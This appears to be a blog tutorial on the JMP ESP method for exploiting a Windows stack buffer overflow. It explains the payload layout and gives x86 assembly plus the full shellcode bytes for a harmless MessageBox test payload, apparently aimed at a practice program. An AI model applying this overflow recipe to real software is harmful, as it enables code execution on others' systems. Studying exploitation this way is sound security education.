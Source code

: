 ```yaml
---
title: Exploit Learning Notes 002 JMP ESP
description: ShellCode's Dynamic Positioning Method - JMP ESP Method
date: 2020-10-19 18:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


> [Click here to download this article with executable program, shellcode file](./exploit-study-02.zip)

Source: [Moeomu's blog](/posts/exploit-learning-notes-002-jmp-esp/)

## Stack space shifting

ShellCode is often dynamic in memory and is not directly filled with a fixed value  
That is, the stack space address of the buffer array in the previous article is not always a fixed value  
When the CPU executes to this address, it may trigger an invalid instruction exception and crash the program and ShellCode will not run.

### Principle

Find the address of a `JMP ESP` instruction from the loaded system DLL and use this address to flood the return address  
This allows for precise location of the shellcode and adapts to the dynamic changes in the stack space  
The stack address is small and large, the CPU execution order is from small address to large address, stack flooding is also from small address to large address  
This allows ShellCode to be dynamically addressed by flooding the previous section with meaningless data and flooding the start of ShellCode at `[ESP]`.

### ShellCode writing

#### structure

Useless data + `JMP ESP` address (this address is exactly flooded to the function return address) + command code (for testing, MessageBox popup)

> Description.
>
> - `retn` will jump to `JMP ESP` afterwards, then ESP + 4
> - `JMP ESP` will jump to the command code exactly after

#### necessary data

- `JMP ESP` address: located in User32.dll `0x77D29353` (no need to be the original command, just search the binary `0xFFE4`)
- Garbage data size: 52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### Final Code

> Here is the command code to be executed

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> Final ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
